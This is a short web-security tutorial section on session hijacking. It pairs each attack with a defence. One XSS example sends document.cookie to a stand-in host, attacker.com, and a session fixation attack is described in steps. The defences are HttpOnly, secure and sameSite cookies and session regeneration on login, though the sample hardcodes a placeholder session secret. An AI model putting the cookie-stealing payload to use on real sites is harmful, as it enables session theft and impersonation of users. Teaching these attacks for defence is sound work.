 
# 18. Session Hijacking

## 18.1 Session Cookie Theft

### 18.1.1 - XSS-based Theft
```javascript
// Attacker injects:
<script>
  fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>

// Attacker now has session ID → can impersonate user
```

### 18.1.2 - Defense: HttpOnly Cookie
```javascript
app.use(session({
  secret: 'secret-key',
  cookie: {
    httpOnly: true,  // Prevent JavaScript access
    secure: true,    // Only HTTPS
    sameSite: 'strict'
  }
}));
```

## 18.2 Session Fixation

### 18.2.1 - Attack
```
1. Attacker gets session ID: SESSIONID=abc123
2. Attacker sends link to victim:
   http://example.com/?SESSIONID=abc123
3. Victim logs in (session ID remains abc123)
4. Attacker uses abc123 → hijacks session!
```

### 18.2.2 - Defense: Regenerate Session on Login
```javascript
app.post('/login', (req, res) => {
  const { username, password } = req.body;
  
  if (authenticateUser(username, password)) {
    // Regenerate session ID after login
    req.session.regenerate((err) => {
      req.session.user = username;
      res.redirect('/dashboard');
    });
  }
});
```

---